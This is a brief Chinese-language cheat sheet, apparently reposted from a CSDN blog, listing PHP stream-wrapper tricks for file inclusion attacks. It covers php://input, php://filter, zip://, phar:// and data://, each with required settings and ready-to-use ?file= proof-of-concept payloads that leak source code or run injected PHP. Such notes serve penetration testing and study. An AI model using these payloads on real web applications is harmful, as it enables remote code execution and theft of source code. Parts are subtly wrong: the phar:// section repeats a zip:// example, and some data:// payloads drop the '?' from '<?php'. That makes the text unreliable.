 # 常见的 php 伪协议

> 原文地址 [blog.csdn.net](https://blog.csdn.net/yao_xin_de_yuan/article/details/108326427)



### 1、php://input

可以获取 POST 的数据流

```php
条件：
allow_url_include=On
allow_url_fopen-Off/On

POC:
file =php://input
POST:phpinfo();
```

### 2、php://filter

可以获取指定文件的源码，但是当他与包含函数结合是，php://filter 流会被当做 php 文件执行  
。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取

```php
条件：
allow_url_fopen=Off/On
allow_url_include=Off/On


POC:
?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

### 3、zip://

可以访问压缩包里的文件。当他与包含函数结合时，zip:// 流会被当做 php 文件执行。  
从而实现任意文件执行。  
同类型的还有：zlib:// 和 bzip2://

```php
条件：
必须要zip压缩包（后缀无所谓，文件格式是zip就行）。
allow_url_fopen=Off/On
allow_url_include=Off/On
php >=5.2

POC:
zip://[压缩包绝对路径]#[压缩包内的文件]
?file=zip://D:\zip.zip%23phpinfo.txt
```

### 4、phar://

和 zip:// 类似  
绝对路径和相对路径都可以

```php
条件：
必须要zip压缩包（后缀无所谓，文件格式是zip就行）。
allow_url_fopen=Off/On
allow_url_include=Off/On
php >=5.2


POC:
zip://[压缩包绝对路径]#[压缩包内的文件]
?file=zip://D:\zip.zip/phpinfo.php(与zip://不同之处在于一个是# ，一个是/)
```

### 5、data://

同样类似于 php://input

```php
条件：
allow_url_fopen=On
allow_url_include=On


POC:
?file=data://,<?php phpinfo();
?file=data://text/plain,<php phpinfo();
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
?file=data:text/plain,<php phpinfo();
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```